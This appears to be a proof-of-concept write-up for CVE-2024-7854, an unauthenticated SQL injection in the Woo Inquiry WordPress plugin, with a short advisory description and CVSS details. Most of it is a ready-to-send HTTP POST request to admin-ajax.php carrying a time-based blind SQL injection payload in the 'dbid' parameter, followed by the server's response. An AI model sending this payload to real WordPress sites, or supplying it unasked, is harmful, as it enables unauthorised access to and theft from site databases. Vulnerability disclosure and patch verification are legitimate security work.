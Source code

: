 # CVE-2024-7854
Woo Inquiry &lt;= 0.1 - Unauthenticated SQL Injection

# Description:
The Woo Inquiry plugin for WordPress is vulnerable to SQL Injection in all versions up to, and including, 0.1 due to insufficient escaping on the user supplied parameter 'dbid' and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.


```
Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')
CVSS VectorCVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
CVE	CVE-2024-7854
CVSS	10.0 (Critical)
Publicly Published	August 20, 2024
Last Updated	August 21, 2024
Researcher	theviper17y
```


POC
---

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 65
Origin: http://kubernetes.docker.internal
Connection: keep-alive
Referer: http://kubernetes.docker.internal/wp-admin/admin.php?page=your-plugin-page

action=woo_wpinq_times_up&dbid=(SELECT(0)FROM(SELECT(SLEEP(7)))a)
```

Response
---

```
HTTP/1.1 200 OK
Date: Fri, 04 Oct 2024 14:58:12 GMT
Server: Apache/2.4.57 (Debian)
X-Powered-By: PHP/8.2.11
Set-Cookie: wp_woocommerce_session_e2df32a6c3e7076dd7dc7d3f3fec39aa=t_3eb3f5c6363918eab1b55150d83bbf%7C%7C1728226692%7C%7C1728223092%7C%7C4da159d85ec0f89a77b481aba5fbc74f; expires=Sun, 06 Oct 2024 14:58:12 GMT; Max-Age=172800; path=/; HttpOnly
Access-Control-Allow-Origin: http://kubernetes.docker.internal
Access-Control-Allow-Credentials: true
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
````

